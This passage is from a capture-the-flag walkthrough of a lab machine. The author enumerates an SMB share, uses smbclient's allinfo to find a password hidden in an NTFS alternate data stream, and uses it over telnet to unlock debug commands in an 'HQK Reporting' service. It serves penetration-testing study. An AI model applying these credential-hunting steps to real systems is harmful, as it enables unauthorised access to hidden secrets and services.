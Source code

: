 I’m particularly drawn to Debug Mode Password.txt, except that it came back as zero bytes. Interestingly, it reports to be zero bytes on the share as well:
```
smb: \C.Smith\> cd "HQK Reporting"
smb: \C.Smith\HQK Reporting\> dir
  .                                   D        0  Thu Aug  8 19:06:17 2019
  ..                                  D        0  Thu Aug  8 19:06:17 2019
  AD Integration Module               D        0  Fri Aug  9 08:18:42 2019
  Debug Mode Password.txt             A        0  Thu Aug  8 19:08:17 2019
  HQK_Config_Backup.xml               A      249  Thu Aug  8 19:09:05 2019

                10485247 blocks of size 4096. 6545781 blocks available

```

However, if I run allinfo on it, I can see something else:
```
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
access_time:    Thu Aug  8 07:06:12 PM 2019 EDT
write_time:     Thu Aug  8 07:08:17 PM 2019 EDT
change_time:    Thu Aug  8 07:08:17 PM 2019 EDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
```

There’s an alternative data stream (ADS) there.I can get it with smbclient just by specifying the entire stream name with a get:

```
smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt:Password"
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:Password of size 15 as Debug Mode Password.txt:Password (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
```
Locally, I can get the password:
`WBQ201953D8w`

Revisiting HQK Reporting
I’ll connect again to HQK (using rlwrap to get arrow keys), and enter the debug creds. They work, and new commands are unlocked:
```
rlwrap telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

> debug WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
> help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>
```